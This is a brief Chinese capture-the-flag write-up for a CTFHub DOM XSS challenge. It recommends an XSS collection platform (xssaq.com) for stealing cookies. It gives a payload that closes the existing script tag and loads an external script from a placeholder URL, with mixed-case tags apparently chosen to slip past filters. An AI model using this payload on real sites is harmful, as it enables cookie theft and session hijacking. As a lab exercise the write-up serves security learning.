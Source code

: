 ctfhub-xss-dom型

知周所众，xss的题一般是打cookie

xssaq.com

开一个项目，调用里面的配置，

但是注意了，这次的题目显示文字是通过js来实现的，所以在输入时要先让其闭合，

```
</sCrIpT><sCRiPt sRC=（这里是url）></sCrIpT>
```

然后就有了

